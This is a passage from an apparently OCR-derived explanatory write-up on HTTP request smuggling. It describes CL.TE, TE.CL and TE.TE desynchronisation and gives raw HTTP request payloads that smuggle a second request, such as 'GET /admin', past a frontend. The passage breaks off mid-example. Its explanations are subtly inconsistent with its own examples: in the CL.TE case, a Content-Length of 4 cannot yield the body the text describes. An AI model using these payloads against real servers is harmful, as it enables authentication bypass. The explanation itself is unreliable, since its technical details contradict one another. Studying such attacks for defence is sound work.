 *   **CL.TE (Content-Length, Transfer-Encoding):**  The attacker sends a request with *both* `Content-Length` and `Transfer-Encoding: chunked` headers.  One server (e.g., Nginx) might prioritize `Content-Length`, while the backend prioritizes `Transfer-Encoding`.  This allows the attacker to "smuggle" a second request within the body of the first.

    *   **Example:**

        ```http
        POST / HTTP/1.1
        Host: vulnerable.example.com
        Content-Length: 4
        Transfer-Encoding: chunked

        1
        A
        0

        GET /admin HTTP/1.1
        Host: vulnerable.example.com

        ```

        Nginx (if prioritizing CL) might see only "1\r\nA\r\n0\r\n\r\n" as the body, forwarding it to the backend.  The backend (prioritizing TE) might process the chunked encoding, then interpret the "GET /admin..." as a *separate* request, bypassing any frontend authentication.

*   **TE.CL (Transfer-Encoding, Content-Length):**  Similar to CL.TE, but the server prioritization is reversed.  The attacker relies on Nginx prioritizing `Transfer-Encoding` and the backend prioritizing `Content-Length`.

    *   **Example:**
        ```http
        POST / HTTP/1.1
        Host: vulnerable.example.com
        Transfer-Encoding: chunked
        Content-Length: 6

        0

        G
        ```
        Nginx might see the entire request as a single, valid chunked request. The backend, however, might only read the first 6 bytes ("0\r\n\r\nG") and treat the rest of the smuggled request as a new request.

*   **TE.TE (Transfer-Encoding, Transfer-Encoding):**  The attacker sends multiple `Transfer-Encoding` headers, hoping that one server will ignore one of them while the other processes it.  This is less common but can still be effective.  Obfuscation techniques (e.g., `Transfer-Encoding: chunked, identity`) can be used.

    *   **Example:**

        ```http
        POST / HTTP/1.1
        Host: vulnerable.example.com
        Transfer-Encoding: chunked
        Transfer-Encoding: identity
